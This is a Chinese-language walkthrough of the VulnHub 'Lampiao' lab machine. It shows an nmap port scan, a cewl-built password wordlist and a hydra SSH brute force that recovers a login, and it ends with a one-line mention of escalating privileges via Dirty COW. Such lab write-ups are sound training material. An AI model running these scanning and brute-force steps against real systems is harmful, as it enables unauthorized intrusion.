


# Lampiao

> https://download.vulnhub.com/lampiao/Lampiao.zip

靶场IP：`192.168.32.233  `

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.233                                                                                                                                              
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-11 11:37 EDT
Nmap scan report for 192.168.32.233
Host is up (0.0018s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http?
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))

```

浏览器访问80端口



浏览器访问1898端口



这看起来很有希望。我们可以看到这是一个 Drupal 博客，作者tiago和Eder 提交了两篇文章。使用这些用户名可能会暴力破解在端口 22 上运行的 SSH 服务。

```
tiago
Eder
```

生成密码字典

```
cewl http://192.168.32.233:1898/?q=node/1  > pass
```

使用hydra爆破

```
┌──(root💀kali)-[/tmp]
└─# hydra -L user -P pass ssh://192.168.32.233                                                                                   
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-12 01:50:47
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1690 login tries (l:2/p:845), ~106 tries per task
[DATA] attacking ssh://192.168.32.233:22/
[22][ssh] host: 192.168.32.233   login: tiago   password: Virgulino
[STATUS] 939.00 tries/min, 939 tries in 00:01h, 753 to do in 00:01h, 16 active
[STATUS] 510.50 tries/min, 1021 tries in 00:02h, 671 to do in 00:02h, 16 active

```


然后使用脏牛漏洞提权。
